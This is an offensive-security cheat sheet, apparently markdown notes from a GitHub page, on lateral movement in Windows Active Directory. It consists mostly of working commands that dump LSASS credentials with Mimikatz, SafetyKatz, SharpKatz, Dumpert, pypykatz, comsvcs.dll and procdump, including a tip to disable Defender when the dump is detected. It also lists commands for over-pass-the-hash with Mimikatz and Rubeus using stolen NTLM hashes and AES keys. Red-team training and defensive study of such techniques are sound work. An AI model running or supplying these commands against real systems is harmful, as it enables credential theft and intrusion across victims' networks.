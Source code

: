
## Lateral Movement Options

Mimikatz dump creds:  

```powershell
# Mimikatz dump creds
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -DumpCreds # On target machine
Invoke-Mimikatz -DumpCreds -ComputerName <computer name> # On remote machine that we have local admin for

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys"

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll (LOLBin)
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
# May need to disable defender if lsass.dmp is being detected
# Take the dmp file offline and dump with mimikatz:
sekurlsa::minidump c:\AD\Tools\lsass.dmp
privilege::debug
sekurlsa::ekeys

# Procdump and Task manager can also be used
# procdump
.\procdump.exe -accepteula -ma lsass.exe lsass_dump
Mimikatz # sekurlsa::Minidump lsass_dump.dmp
Mimikatz # sekurlsa::logonpassword /full

# task manager
Open Task Manager -> Details tab (Might need to click “More details” first)
Right click -> Create dump file
Take offline and extract with Mimikatz
```

Over Pass The Hash:  

```powershell
# Invoke-Mimikatz.ps1
# Mimikatz new shell with user creds (with NTLM)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash> /run:powershell.exe"'
# Mimikatz new shell with user creds (with AES256)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /aes256:<aes256key> /run:powershell.exe"'

# SafetyKatz.exe
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"

# Rubeus
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
